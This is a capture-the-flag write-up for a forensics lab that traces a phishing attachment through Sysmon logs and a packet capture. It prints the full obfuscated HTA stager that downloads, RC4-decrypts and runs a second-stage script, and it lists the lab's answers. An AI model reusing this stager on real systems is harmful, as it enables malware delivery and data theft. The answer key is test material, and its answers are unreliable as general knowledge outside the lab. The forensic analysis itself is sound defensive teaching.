





# The Waiting Room

|    Category     |Difficulty|
|:---------------:|:--------:|
|Digital Forensics|  Medium  |

**Skills learned:**
* Dumping the contents of Windows Event Logs (.evtx) files and converting them into .json format
* Analyzing *Microsoft-Windows-Sysmon Operational* logs to reconstruct the timeline of an attack
* Utilizing VirusTotal to find SHA-256 hashes of malicious files
* Check Wireshark's HTTP object list to track down malicious file downloads and identify a threat actor's server
* Tracing the execution flow of a malicious HTA file, extracting core deobfuscation logic and uncovering RC4 keys used to decrypt second-stage payloads
* Utilizing a CyberChef recipe to decrypt an encoded file and obtain its SHA-256 hash

## Mission
A routine supplier email has left Michelle Smith with an attachment that did not open as expected. Examine the correspondence, trace the workstation activity, and determine what happened after she opened it.
Michelle Smith received a supplier email about an upcoming payment run. After she opened an attachment, her workstation contacted an unfamiliar service. Your task is to investigate the supplied email, Windows events, and captured traffic to reconstruct the execution chain and determine what left the workstation.

**File attachment(s):**
```text
artifacts
├── tools
│   ├── CyberChef (folder)
│   ├── python-env
│   ├── evtx_dump (exe)
│   └── cyberchef (exe)
├── Sysmon-incident.evtx
├── incident.pcap
└── vendor.eml
```

## Objectives
* Identify the attachment responsible for the suspicious activity
* Reconstruct the execution chain using the Windows events
* Examine the attachment and correlate its behavior with the captured traffic
* Recover the transferred data and establish what left the workstation

## Analyst Note
Analyze the attachment without executing it. Use the Windows events and captured traffic to distinguish what the attachment contains from what actually ran.

## Dumping Contents of .evtx File
In order to read the .evtx files on the room's lab machine, we have to first utilize **evtx_dump** to convert the files into a readable format for Linux.

The full usage of evtx_dump can be found on [GitHub](https://github.com/omerbenamram/EVTX). The full command I used is below:
`evtx_dump /home/ubuntu/Desktop/artifacts/Sysmon-incident.evtx --format json --output Sysmon.json` → creates a file named **Sysmon.json** having the contents of Sysmon logs

## Questions
**1. What is the SHA-256 hash of the embedded attachment that initiated the suspicious activity?**

The embedded attachment referred to here is the *email attachment* that initiated the suspicious activity. We need to start investigating the artifact **vendor.eml** to determine how the activity started.

The vendor.eml file includes the full attachment in the section:
```
Content-Type: application/onenote
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="Remittance.one"
MIME-Version: 1.0

5FJce4zYp02usVN40CmW05vTJRhWkTlLqecmiV+GxvYAAAAAAAAAAAAAAAAAAAAAP92aEBuR9Uml
0BeR7ciu2CoAAAAqAAAAKgAAACoAAAAAAAAAAAAAAP////8AAAAAFgAAAAAAAAAAAAAAAAAAAP//
//8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIApAAAAAAAAAAQAAAAIAAAAAAAAaAkA
AAAEAAAAAAAAAAQAAP//////////AAAAAFBWAAAAAAAAeAEAAAAAAACjgCF1OMuOS73PyYdNGQ1U...
```

The attachment itself is a Base64 encoded OneNote container. To find the SHA-256 hash of the malicious embedded attachment, we can follow these steps:
1. Save a copy of the malicious attachment (Remittance.one) onto the Lab machine
2. Run the sha256sum command against the Remittance.one file
3. Search VirusTotal for related files

Opening the *vendor.eml* artifact, we see there is a OneNote attachment:



We can save this attahcment to the Lab machine and calculate it's SHA256 hash using the command `sha256sum Remittance.one`.



Since the OneNote file is not the *embedded attachment* referred to here, we can use [VirusTotal](https://www.virustotal.com/gui/file/393d80fb5a56484ccb615c8fc70c5f3009457b62a281788b5dfa79c209ec8669) to search for files related to the *Remittance.one hash*. Opening the *Relations* tab, we see there is a related file named **Remittance_ath.pdf** which is the malicious PDF file embedded in the email attachment. VirusTotal also provides us the SHA-256 hash of the PDF file.



**Answer: e3e53f2e21df0b56eeb62d50146c4d69eb8cbc1bab5b8ba13f8ba5859870f6b3**

---

**2. Which Unicode code point was used to disguise that attachment’s displayed filename?** 

If you copy and paste the file name **Remittance_ath.pdf** from VirusTotal, you'll get `Remittance_‮fdp.hta`, which includes the unicode point *U+202E*. This unicode point is the *Right-To-Left Override (RLO) character that forces text to display from right to left.

We can also see the right-to-left override in action in the Sysmon logs. In *record 209*, part of the log is written right-to-left:
```
Record 209
{"Event":{"#attributes":{"xmlns":"http://schemas.microsoft.com/win/2004/08/events/event"},"System":{"Provider":{"#attributes":{"Name":"Microsoft-Windows-Sysmon","Guid":"5770385F-C22A-43E0-BF4C-06F5698FFBD9"}},"EventID":1,"Version":5,"Level":4,"Task":1,"Opcode":0,"Keywords":"0x8000000000000000","TimeCreated":{"#attributes":{"SystemTime":"2026-10-06T18:02:28.597538Z"}},"EventRecordID":2697,"Correlation":null,"Execution":{"#attributes":{"ProcessID":2536,"ThreadID":3344}},"Channel":"Microsoft-Windows-Sysmon/Operational","Computer":"meridian.thm","Security":{"#attributes":{"UserID":"S-1-5-18"}}},"EventData":{"RuleName":"-","UtcTime":"2026-10-06 18:02:28.584","ProcessGuid":"C24FC70D-37B4-6AC5-6701-000000000600","ProcessId":4780,"Image":"C:\\Windows\\SysWOW64\\mshta.exe","FileVersion":"11.00.19041.1 (WinBuild.160101.0800)","Description":"Microsoft (R) HTML Application host","Product":"Internet Explorer","Company":"Microsoft Corporation","OriginalFileName":"MSHTA.EXE","CommandLine":"\"C:\\Windows\\SysWOW64\\mshta.exe\" \"C:\\Users\\m.smith\\Downloads\\PO-1048\\Remittance_‮fdp.hta\" {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5} ","CurrentDirectory":"C:\\Users\\m.smith\\Downloads\\PO-1048\\","User":"MERIDIAN\\m.smith","LogonGuid":"C24FC70D-2EE9-6AC5-0769-020000000000","LogonId":"0x26907","TerminalSessionId":1,"IntegrityLevel":"Medium","Hashes":"SHA256=213AB5658E44F2A111C5E4CFFA043660BC49307EBB1B7EEDD21DBDDCA5DA41AC","ParentProcessGuid":"C24FC70D-33E1-6AC5-5201-000000000600","ParentProcessId":1088,"ParentImage":"C:\\Windows\\explorer.exe","ParentCommandLine":"C:\\Windows\\explorer.exe /factory,{75dff2b7-6936-4c06-a8bb-676a7b00b24b} -Embedding","ParentUser":"MERIDIAN\\m.smith"}}}
```

**Answer: U+202E**

---

**3. Which hostname served the downloaded stage?**

We can find the host who served the stage by analyzing the *incident.pcap* artifact file with [Wireshark](https://www.wireshark.org/). 

I opened the **HTTP object list** under *File > Export Objects > HTTP*. This is the full list of files transmitted via HTTP during the packet capture.



Here, we see three packets involving the files *remittance-v2.png* and *receipt*. To determine which of these files was downloaded onto the host, we can inspect each packet directly.

Following the HTTP stream of **packet 454**, we see:
```
GET /assets/remittance-v2.png HTTP/1.1
Accept: */*
Accept-Language: en-US
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: portal.meridian.thm:8080
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.14
Date: Tue, 06 Oct 2026 18:02:59 GMT
Content-Type: application/octet-stream
Content-Length: 1709

Lz`.......q.....u..\.?G.(+.ssh.Z.~.*..............
..Me.U.......RM.n..z?Bn....5=.?
...#...PR.C-..Z.,..#..g.......BE0.+.hH.i|.d].!.g........x...nS.Ef........
```

So we know that the workstation downloaded *remittance-v2.png* from the hostname `portal.meridian.thm`.

**Answer: portal.meridian.thm**

---

**4. What was the process ID of the interpreter that executed the downloaded script?**

We must investigate the Sysmon logs to find the process ID where the script was executed. Since we know the malicious code `Remittance_‮fdp.hta` was executed, we can search for occurrences of *mshta.exe*, which is a Windows utility that executes .hta files. 

To filter which of the logs involving *mshta.exe* involve the execution of the downloaded script, we need to pivot to Event ID 1 (Process Creation). Sysmon record *212* logs a process creation event where *mshta.exe* spawned script execution via *cscript.exe* to run C:\\Users\\m.smith\\AppData\\Local\\Meridian\\receipt.js\. 
```
Record 212
{"Event":{"#attributes":{"xmlns":"http://schemas.microsoft.com/win/2004/08/events/event"},"System":{"Provider":{"#attributes":{"Name":"Microsoft-Windows-Sysmon","Guid":"5770385F-C22A-43E0-BF4C-06F5698FFBD9"}},"EventID":1,"Version":5,"Level":4,"Task":1,"Opcode":0,"Keywords":"0x8000000000000000","TimeCreated":{"#attributes":{"SystemTime":"2026-10-06T18:02:29.248454Z"}},"EventRecordID":2700,"Correlation":null,"Execution":{"#attributes":{"ProcessID":2536,"ThreadID":3344}},"Channel":"Microsoft-Windows-Sysmon/Operational","Computer":"meridian.thm","Security":{"#attributes":{"UserID":"S-1-5-18"}}},"EventData":{"RuleName":"-","UtcTime":"2026-10-06 18:02:29.242","ProcessGuid":"C24FC70D-37B5-6AC5-6801-000000000600","ProcessId":1996,"Image":"C:\\Windows\\SysWOW64\\cscript.exe","FileVersion":"5.812.10240.16384","Description":"Microsoft ® Console Based Script Host","Product":"Microsoft ® Windows Script Host","Company":"Microsoft Corporation","OriginalFileName":"cscript.exe","CommandLine":"\"C:\\Windows\\System32\\cscript.exe\" //B //Nologo \"C:\\Users\\m.smith\\AppData\\Local\\Meridian\\receipt.js\" MR-6106-028","CurrentDirectory":"C:\\Users\\m.smith\\Downloads\\PO-1048\\","User":"MERIDIAN\\m.smith","LogonGuid":"C24FC70D-2EE9-6AC5-0769-020000000000","LogonId":"0x26907","TerminalSessionId":1,"IntegrityLevel":"Medium","Hashes":"SHA256=B6C61C065F8BCA4A5B8F560C12379859BDCAA0844245A3A31025614C086FF89A","ParentProcessGuid":"C24FC70D-37B4-6AC5-6701-000000000600","ParentProcessId":4780,"ParentImage":"C:\\Windows\\SysWOW64\\mshta.exe","ParentCommandLine":"\"C:\\Windows\\SysWOW64\\mshta.exe\" \"C:\\Users\\m.smith\\Downloads\\PO-1048\\Remittance_‮fdp.hta\" {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5} ","ParentUser":"MERIDIAN\\m.smith"}}}
```

The process ID can be found in the **ProcessId** field.

**Answer: 1996**

---

**5. What encryption key protected the document transferred from the workstation?**

To determine exactly which file was transferred from the workstation, we can go back to the **HTTP object list** in Wireshark. The only other file in the list is **receipt**. 

Following the HTTP stream of **packet 465**, we see:
```
POST /api/receipt HTTP/1.1
Accept: */*
Content-Type: application/json
Accept-Language: en-US
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: portal.meridian.thm:8080
Content-Length: 557
Connection: Keep-Alive
Cache-Control: no-cache

{"reference":"MR-6106-028","workstation":"MERIDIAN","user":"m.smith","document":"payment-register.csv","data":"U3VkU43sl+Cfs0zI/Lzory7LzF/rJkfKPTWVDGt9Rxn8ZAkjCZP6TcHdPvHm2cz+lSwJi99dHIk6AIylju6ziExdqmCMvG06SiVR9ryibjWbK0jD1ok6hr7wekOiFH78uFXCf0raZXbjMUe/1MT8p6hscE+EGuQ0a/pJXcI3GLs5Dl7E0MXby6rAtXr60JNyX5lOF/koQEBOwSjeQ82goqCJgGfgM71nCvmpwOqhoRGW51lgkGeOhWYflHu2ggUl7Y5pzc4oROur2jaXSLpVDRkCrkw7LwMJhAt+Z58930aapGFeXYRBmIG6NvwOEo48PFuPLl/75OKTKWxFwVH6YExHoZfiGDVW0uZ/lEMOPR+hkJKYGZe7Z85NNxSV4jS4x3osk4tZzqJTaoXryuO51Dl/9sJZXTRwsBZmT0AC2m1y8qnipDgWxsoV7A=="}HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.14
Date: Tue, 06 Oct 2026 18:03:00 GMT
Content-Type: application/json
Content-Length: 43

{"accepted":true,"reference":"MR-6106-028"}
```

The workstation sent a POST request to the same hostname, and the body contains *"document":"payment-register.csv"*. This must be the document that was transferred from the workstation. Before we can find the encryption key that protected *payment-register.csv*, we first need to understand what the malicious .hta (HTML Application) payload embedded in **Remittance_ath.pdf** does.

Decoding the full email attachment, we can find the full .hta payload:
```
<!DOCTYPE html><html><head><title>Remittance Advice</title><hta:application id="receipt" applicationname="Remittance Advice" border="thin" showintaskbar="no" windowstate="minimize"/><script language="JScript">var entries=["746a6174750b17617475716d6d69170f1709", "6a5a4b50494d50575e177f50555c6a404a4d5c54765b535c5a4d", "6e6a5a4b50494d176a515c5555", "514d4d4903161649564b4d585517545c4b505d505857174d5154030109010916584a4a5c4d4a164b5c54504d4d58575a5c144f0b1749575e", "1c75767a78757869697d786d781c", "65745c4b505d505857", "654b5c5a5c50494d17534a", "7e7c6d", "5a4a5a4b50494d175c415c1916167b191616775655565e5619", "0a5a0e58015a01010d0f0f5f0c5b010f005b5c58080c5f0a0a0a5c0a5b5c0908", "746b140f08090f14090b01"];function value(i){var h=entries[i],r="";for(var n=0;n<h.length;n+=2)r+=String.fromCharCode(parseInt(h.substr(n,2),16)^57);return r;}function transform(a,k){var s=[],j=0,i,t,o=[];for(i=0;i<256;i++)s[i]=i;for(i=0;i<256;i++){j=(j+s[i]+k[i%k.length])&255;t=s[i];s[i]=s[j];s[j]=t;}i=0;j=0;for(var n=0;n<a.length;n++){i=(i+1)&255;j=(j+s[i])&255;t=s[i];s[i]=s[j];s[j]=t;o.push(a[n]^s[(s[i]+s[j])&255]);}return o;}function loadReceipt(){try{var x=new ActiveXObject(value(0)),f=new ActiveXObject(value(1)),w=new ActiveXObject(value(2));x.open(value(7),value(3),false);x.send();if(x.status!=200)return;var b=new VBArray(x.responseBody).toArray(),k=[],h=value(9);for(var i=0;i<h.length;i+=2)k.push(parseInt(h.substr(i,2),16));var p=transform(b,k),d=w.ExpandEnvironmentStrings(value(4))+value(5);if(!f.FolderExists(d))f.CreateFolder(d);var n=d+value(6),s=f.CreateTextFile(n,true,false),text="";for(var i=0;i<p.length;i++)text+=String.fromCharCode(p[i]);s.Write('var cacheToken="'+h+'";\n'+text);s.Close();w.Run(value(8)+'"'+n+'" '+value(10),0,true);}catch(e){}window.close();}</script></head><body onload="loadReceipt()"><p>Preparing the remittance advice...</p></body></html>
```

The payload created a list of obfuscated strings in the *entries* array to store sensitive data. Each string in the list is broken into sets of two characters which are then hex encoded and XORed with the decimal value *57* before being converted back to a string.

```js
function value(i){
  var h=entries[i],r="";
  for(var n=0;n<h.length;n+=2)
    r+=String.fromCharCode(parseInt(h.substr(n,2),16)^57);
  return r;
}
```

Following the app's logic, the element *entries[9]* decodes to **3c7a8c88466f5b869bea15f333e3be01**, which is then passed to the *RC4 decryption function (transform)* as the decryption key value *k*.

```js
var b=new VBArray(x.responseBody).toArray(),
    k=[],
    h=value(9);
for(var i=0;i<h.length;i+=2)
  k.push(parseInt(h.substr(i,2),16));
var p=transform(b,k);
```

**Answer: 3c7a8c88466f5b869bea15f333e3be01**

---

**6. What is the SHA-256 hash of the document transferred from the workstation?**

We can use a combination of the application's logic and [CyberChef](https://gchq.github.io/CyberChef/) to find the hash of the document *payment-register.csv*.

Pasting the full encoded data field from the POST /api/receipt request (in packet 465), we can use the CyberChef recipe **From Base64 > RC4 (with passphrase 3c7a8c88466f5b869bea15f333e3be01)** to decrypt the file's contents. However, adding the step **SHA2 (size 256)**, we can obtain the file's SHA-256 hash.



**Answer: c19c4964c2a77872c49750cc1c2dd443b48fba984b41988aec6fbc780faed09a**
